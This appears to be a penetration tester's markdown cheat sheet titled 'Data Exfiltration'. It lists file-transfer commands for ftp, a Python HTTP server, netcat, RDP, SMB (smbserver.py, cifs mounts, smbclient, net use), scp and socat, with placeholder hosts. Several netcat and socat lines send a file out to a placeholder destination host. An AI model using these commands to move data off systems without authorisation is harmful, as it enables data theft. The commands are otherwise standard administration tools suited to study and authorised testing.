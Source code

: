 # Data Exfiltration  

## ftp  
`ftp [FTP SERVER ADDRESS] or ftp`  
`open    - connect to an ftp server`  
`user    - enter ftp username`  
`pass    - enter ftp password`  
`bi      - binary file transfer mode`  
`hash    - enable file transfer status`  
`get     - download a file`  
`put     - upload a file`  
`mget    - download multiple files`  
`mput    - upload multiple files`  
`prompt  - enable/disable interaction (disable if downloading multiple files)`

## http  
Using Python3 to run a temporary web server to allow file downloads from the current directory:  
`$ sudo python3 -m http.server [port]`  

## netcat
source sends the file  
source: `$nc -w 3 <DESTINATION> <PORT> < FILENAME>`  
destination: `$nc -l -p <PORT> > <FILENAME>`

destination pulls file
source: `$nc -l -p <PORT> < <FILENAME>`
destination: `$nc -w 3 <SOURCE> <PORT> > <FILENAME>`    

## rdp  
if RDP is available on the system, connect and copy/paste between the rdp client and the desktop.  This has a 2GB file size limit.  For larger file transfers, [mount a local drive](https://helpdeskgeek.com/networking/accessing-local-files-and-folders-on-remote-desktop-session/)  

 
## smb/windows file sharing  
Using smbserver.py  
smbserver.py is a python script that will create an open share in a folder of choice.  Once running, you can browse and interact through it using regular windows file sharing tools, such as Windows Explorer.  
`$ sudo smbserver.py <SHARE NAME> <LOCAL FOLDER>`  

Using cifs-utils to mount an smb share  
`$ sudo mkdir /mnt/<LOCAL FOLDER>`  
`$ sudo mount -t cifs -o username=<SHARE USER>,domain=<WINDOWS DOMAIN> //<SHARE IP>/<SHARE NAME> /mnt/<LOCAL FOLDER>`  

Using smbclient cli:  
`$ sudo smbclient \\\\<HOSTNAME>\\<SHARE>`  

In the cli:  
`cd    - change remote directory`  
`dir   - list directory`  
`get   - download file (file will be downloaded to local directory)`  
`put   - upload file (file will be uploaded to remote directory)`  
`help  - help menu`  
`exit  - exits the cli`  

Copying files from the Windows command line:  
using drive letters  
`net use <DRIVE LETTER>: \\<SMBSHARE>`  
`copy <DRIVE LETTER\SOURCE> <DRIVE LETTER\DESTINATION>`  
  
without drive letters  
`xcopy <\\HOST\SOURCE> <\\HOST\DESTINATION>`  

## ssh/scp  
`$ scp <USER>@<SOURCEHOST>:<\DIRECTORY\FILE> <USER>@<DESTINATIONHOST>:<\DIRECTORY\FILE>`  

## socat  
source: `socat FILE:<FILENAME> TCP-LISTEN:<PORT>`  
destination:  `socat TCP:<HOST>:<PORT> FILE:<FILENAME>,create`  





